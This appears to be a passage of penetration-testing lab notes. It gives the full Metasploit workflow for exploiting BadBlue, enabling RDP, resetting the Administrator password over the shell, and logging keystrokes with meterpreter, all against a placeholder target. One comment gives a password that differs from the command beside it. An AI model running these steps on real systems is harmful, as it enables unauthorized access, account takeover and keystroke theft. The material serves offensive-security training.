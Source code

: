 ### 8.5. Enabling Remote Desktop Protocol (RDP)

Explore a couple of modules to exploit a vulnerable application and gain an RDP session on the target.

**Objective:** Your task is to find and exploit the vulnerable application and get the RDP session to find the flag!

**Note:** rdesktop will not work on this setup as it does not support NLA. Please use xfreerdp to connect to the RDP server.

```shell
service postgresql start && msfconsole -q
workspace -a Enable_RDP
db_nmap -sS -sV -O <target_IP>
use exploit/windows/http/badblue_passthru
set RHOSTS <target_IP>
exploit
# We have successfully exploited the target vulnerable application (badblue) and received a meterpreter shell.
sysinfo
getuid

# Enabling the RDP service using windows post exploitation module.
background
use post/windows/manage/enable_rdp
set SESSION 1
exploit
# RDP Service Started on the target
# The post exploit worked fine. Re-running nmap to check if RDP port is exposed or not.

db_nmap -p 3389 <target_IP>
# In this case we can see that port 3389 is now open, which means we now have RDP running on the target.
# 3389/tcp  open  ms-wbt-server

sessions -i 1
shell
net users # The net user command (without any parameters) displays a list of all user accounts on the Windows system.
net user administrator hacker_1234 # Changes the Administrator account password to 'hacker_123321'.
# In general not recommended as it clearly reveals system compromise

xfreerdp /u:administrator /p:hacker_1234 /v:<target_IP>
# Now we get the remote desktop.
```

### 8.6. Windows Key-Logging

```shell
# exploit BadBlue.
# enable RDP 

pgrep explorer
migrate <service_id>
keyscan_start  # Starts capturing keystrokes on the target machine.
# Now switch to the target system and type something manually (e.g., in a browser or text editor).
keyscan_dump  # Displays the captured keystrokes from the target.
```
